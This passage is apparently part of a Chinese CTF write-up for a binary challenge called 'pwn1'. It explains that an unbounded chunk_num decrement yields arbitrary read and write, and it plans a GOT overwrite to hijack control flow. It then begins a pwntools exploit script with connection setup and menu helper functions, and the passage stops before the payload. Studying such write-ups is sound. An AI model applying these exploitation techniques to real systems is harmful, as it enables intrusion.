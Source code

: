 ```python
				print chr(c),
				out+=chr(c)
				break
```


## pwn1

一开始看这个架势以为是堆的题，后来发现连free都没有。。。。

![](shanghaidaxuesheng_561a4815c34d8f8dfa7e7e37eed6ca2b.png)

chunk_num可以无限递减。

![](shanghaidaxuesheng_859f1d78d0f53a2030ae3f21b279b2cc.png)

![](shanghaidaxuesheng_8fff5d41cc9d0a92daa1e2e82975cd4e.png)

edit和show基本没有限制，一个任意地址读，一个任意写，只要地址在chunk_list前即可。


考虑在前面找一个到got表的指针即可。

![](shanghaidaxuesheng_2df96a2f07b5fdb7c33bf17b6904a16d.png)

直接劫持程序流即可。

```python
#coding=utf8
from pwn import *
#context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

local = 1

if local:
	cn = remote('127.0.0.1',2222)
	bin = ELF('./list')
	libc = ELF('libc_local.so')
else:
	cn = remote('106.75.8.58', 13579)
	bin = ELF('./list')
	libc = ELF('remote_libc.so')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


def add(con):
	cn.sendline('1')
	cn.recvuntil('content')
	cn.send(con)

def show():
	cn.sendline('2')

def edit(con):
	cn.sendline('3')
	cn.sendline(con)

def dele():
	cn.sendline('4')
```